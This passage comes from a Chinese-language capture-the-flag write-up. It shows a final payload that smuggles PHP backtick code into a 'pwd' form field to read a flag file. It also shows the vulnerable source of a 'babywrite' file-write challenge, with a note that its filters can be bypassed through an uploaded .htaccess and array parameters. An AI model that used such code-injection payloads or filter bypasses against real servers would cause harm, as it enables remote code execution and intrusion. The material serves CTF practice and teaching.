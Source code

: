 最终payload
```shell
host=127.0.0.1&user=Exception&pwd=)?><?=`cat /fllllaaaaag`?>&port=123
```
![](./i/3.png)

## babywrite

代码审计
```php
<?php
highlight_file(__FILE__);
$sandbox = md5($_SERVER['REMOTE_ADDR']);
if (!is_dir($sandbox)) {
    mkdir($sandbox);
}
if (isset($_GET['filename']) && isset($_GET['content'])) {
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    if (preg_match_all("/ph|\.\.|\//i", $filename) || strlen($filename) > 10) {
        die("No way!");
    }
    if (preg_match_all("/<\?|ph/", $content)) {
        die("No way!");
    }
    $filename = $sandbox . "/" . $filename;
    @file_put_contents($filename, $content);
    echo $filename;
}
```
一道简单的写马题，但是过滤又贼多，最终发现可以利用上传.htaccess绕过,并且可以利用数组绕过过滤
